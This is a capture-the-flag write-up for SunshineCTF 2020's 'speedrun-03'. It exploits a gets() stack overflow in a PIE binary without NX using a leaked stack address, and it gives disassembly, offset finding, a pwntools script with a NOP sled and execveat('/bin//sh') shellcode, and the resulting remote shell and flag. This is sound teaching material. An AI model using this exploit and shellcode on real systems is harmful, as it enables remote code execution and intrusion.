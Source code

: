 # speedrun-03

## Task

nc chal.2020.sunshinectf.org 30003

File: chall_03

Tags: binary exploitation

## Solution

This time we have PIE enabled, but no NX. We therefore can write shellcode to the stack. But we need to find out where the stack is located.

```nasm
[0x00000650]> afl
0x00000650    1 42           entry0
0x00000680    4 50   -> 40   sym.deregister_tm_clones
0x000006c0    4 66   -> 57   sym.register_tm_clones
0x00000710    5 58   -> 51   sym.__do_global_dtors_aux
0x00000750    1 10           entry.init0
0x00000840    1 2            sym.__libc_csu_fini
0x0000075a    1 52           sym.vuln
0x00000610    1 6            sym.imp.printf
0x00000630    1 6            sym.imp.gets
0x00000844    1 9            sym._fini
0x000007d0    4 101          sym.__libc_csu_init
0x0000078e    1 52           main
0x00000600    1 6            sym.imp.puts
0x00000620    1 6            sym.imp.fgets
0x000005d0    3 23           sym._init
0x00000000    9 459  -> 494  loc.imp._ITM_deregisterTMCloneTable
[0x00000650]> pdf@sym.vuln
            ; CALL XREF from main @ 0x7ba
┌ 52: sym.vuln ();
│           ; var char *s @ rbp-0x70
│           0x0000075a      55             push rbp
│           0x0000075b      4889e5         mov rbp, rsp
│           0x0000075e      4883ec70       sub rsp, 0x70
│           0x00000762      488d4590       lea rax, [s]
│           0x00000766      4889c6         mov rsi, rax
│           0x00000769      488d3de40000.  lea rdi, str.I_ll_make_it:__p ; 0x854 ; "I'll make it: %p\n" ; const char *format
│           0x00000770      b800000000     mov eax, 0
│           0x00000775      e896feffff     call sym.imp.printf         ; int printf(const char *format)
│           0x0000077a      488d4590       lea rax, [s]
│           0x0000077e      4889c7         mov rdi, rax                ; char *s
│           0x00000781      b800000000     mov eax, 0
│           0x00000786      e8a5feffff     call sym.imp.gets           ; char *gets(char *s)
│           0x0000078b      90             nop
│           0x0000078c      c9             leave
└           0x0000078d      c3             ret
```

Thankfully it's leaked to us.

We now need to correct length of our padding. We use peda pattern function for that. Since there is a call to `fgets` in main we add a newline in the pattern file.

We create a pattern with `pattern create 200 pattern.txt`, insert a newline and `run < pattern.txt` after we set a breakpoint at the return instruction in `vuln`.

```nasm
gdb-peda$ info register rsp
rsp            0x7fffffffe068      0x7fffffffe068
gdb-peda$ x/s 0x7fffffffe068
0x7fffffffe068: "jAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA"
gdb-peda$ pattern offset jAA9AAOAAkA
jAA9AAOAAkA found at offset: 120
```

We now need some shellcode. You can find them on `shell-storm` or anywhere else. I used `Linux/x86-64 execveat("/bin//sh")` from `ZadYree, vaelio and DaShrooms`.

We receive the stack address, write out padding, then we overwrite the return address with `stack_addr + stack_size + 8 + padd`.

After that we use a NOP sled to slide in our shellcode.

```python
from pwn import *

#p = process("./chall_03")
p = remote("chal.2020.sunshinectf.org", 30003)

info(p.recvline())
p.sendline()
info(p.recvuntil("I'll make it: "))
addr = p.recv()
info(addr)

payload  = "A" * 120
payload += p64(int(addr, 16) + 130)
payload += b'\x90'*16
payload += b'\x6a\x42\x58\xfe\xc4\x48\x99\x52\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5e\x49\x89\xd0\x49\x89\xd2\x0f\x05'

p.sendline(payload)
p.interactive()
```

We now get our flag:

```bash
$ python2 pwny.py
[+] Opening connection to chal.2020.sunshinectf.org on port 30003: Done
[*] Just in time.
[*] I'll make it:
[*] 0x7fffc9648a70
[*] Switching to interactive mode
$ ls
chall_03
flag.txt
$ cat flag.txt
sun{a-little-piece-of-heaven-26c8795afe7b3c49}
```
